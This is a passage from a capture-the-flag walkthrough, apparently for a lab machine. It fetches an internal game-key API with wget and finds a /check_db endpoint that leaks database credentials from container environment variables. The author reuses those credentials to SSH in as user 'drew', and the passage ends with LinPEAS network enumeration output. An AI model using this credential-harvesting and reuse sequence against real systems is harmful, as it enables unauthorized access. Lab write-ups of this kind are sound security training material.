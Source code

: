 Now have a look at that host:
```
wget http://api.app_nw:5000/
ls
1
index.html
out
cat index.html
{"message":"Welcome to the game-key verification API! You can verify your keys via: /verify/<game-key>. If you are using manual verification, you have to synchronize the magic_num here. Admin users can verify the database using /check_db.","status":200}
wget http://api.app_nw:5000/check_db
ls
check_db
index.html
out
cat check_db
{"message":{
[...] 
	"Env":["MYSQL_DATABASE=db","MYSQL_USER=drew","MYSQL_PASSWORD=drew","MYSQL_ROOT_PASSWORD=XeoNu86JTznxMCQuGHrGutF3Csq5","SERVICE_TAGS=dev","SERVICE_NAME=mysql","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.12","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.25-1debian10"],"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},
[...]
alive\n","Start":"2021-09-27T21:02:19.708703604+02:00"},{"End":"2021-09-27T21:02:24.901405098+02:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2021-09-27T21:02:24.816004481+02:00"}],"Status":"healthy"},"OOMKilled":false,"Paused":false,"Pid":1006,"Restarting":false,"Running":true,"StartedAt":"2021-09-27T17:39:30.244314333Z","Status":"running"}},"status":200}
```
So we found a credentials there: `drew:XeoNu86JTznxMCQuGHrGutF3Csq5`.
Finally we can have access with ssh as user drew.

## Root

Running LinPEAS again we found more networking stuff:
```s
╔══════════╣ Networks and neighbours
Kernel IP routing table                                                                                                                                                                                             
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.129.0.1      0.0.0.0         UG    0      0        0 ens160
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 ens160
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0
172.18.0.0      0.0.0.0         255.255.0.0     U     0      0        0 br-c80b310557f4
172.19.0.0      0.0.0.0         255.255.0.0     U     0      0        0 br-41b23ce87299
IP address       HW type     Flags       HW address            Mask     Device
172.18.0.2       0x1         0x2         02:42:ac:12:00:02     *        br-c80b310557f4
172.18.0.102     0x1         0x2         02:42:ac:12:00:66     *        br-c80b310557f4
172.19.0.4       0x1         0x2         02:42:ac:13:00:04     *        br-41b23ce87299
10.129.0.1       0x1         0x2         00:50:56:b9:f8:ec     *        ens160
```
